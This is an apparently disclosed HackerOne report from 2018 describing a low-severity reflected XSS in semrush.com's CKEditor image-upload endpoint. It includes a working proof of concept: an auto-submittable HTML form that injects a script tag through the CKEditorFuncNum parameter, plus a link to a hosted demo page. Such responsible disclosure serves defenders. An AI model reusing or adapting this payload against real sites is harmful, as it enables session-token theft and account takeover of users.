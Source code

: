 # Post Based XSS On Upload Via CK Editor [semrush.com]

## Report Details
- **Report ID**: 375352
- **URL**: https://hackerone.com/reports/375352
- **State**: Closed
- **Severity**: low
- **Submitted**: 2018-07-02T13:44:12.140Z
- **Disclosed**: 2018-08-17T13:08:41.729Z

## Reporter
- **Username**: apapedulimu
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: semrush

## Vulnerability Information
**Summary:** 
XSS Via Post Method When Upload via CKEditor

**Description:** 
This XSS is execute by error message when upload some image on 

```
https://www.semrush.com/my-posts/api/image/upload/?CKEditor=text&CKEditorFuncNum=0&langCode=en
```

## Browsers Verified In:

  * Firefox

## Steps To Reproduce:

- This is POST based XSS, need some csrf to trigger the xss
- Create .html code like : 

```
<html>
  <body>
    <form action="https://www.semrush.com/my-posts/api/image/upload/?CKEditor=text&CKEditorFuncNum=dadasd</script><script>alert(document.domain)</script>&langCode=en" method="POST">
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```
- and click the submit request 
- Or go to http://labs.apapedulimu.click/xss-semrush.html 

## Supporting Material/References:
{F314582}

## Impact

XSS Will be execute it when user click that button, and attacker can stole user token, IP & etc.

Regards,
Apapedulimu

## Attachments
- Screen_Shot_2018-07-02_at_8.38.55_PM.png
